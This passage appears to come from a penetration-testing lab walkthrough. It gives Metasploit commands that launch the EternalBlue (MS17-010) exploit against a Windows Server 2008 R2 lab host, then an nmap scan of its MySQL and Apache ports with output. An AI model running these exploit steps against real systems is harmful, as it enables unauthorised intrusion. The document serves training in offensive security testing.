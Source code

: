 - *If no account credentials can be found*, use the **EternalBlue vulnerability** exploit since the system target is a Win Server 2008 R2

```bash
msfconsole -q
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS 10.2.26.45
run
```

![](.gitbook/assets/image-20230424122329479.png)

### MySQL

```bash
nmap -sV -sC -p 3306,8585 10.2.26.45
```

```bash
3306/tcp open  mysql   MySQL 5.5.20-log
8585/tcp open  http    Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
```

![](.gitbook/assets/image-20230424122710148.png)

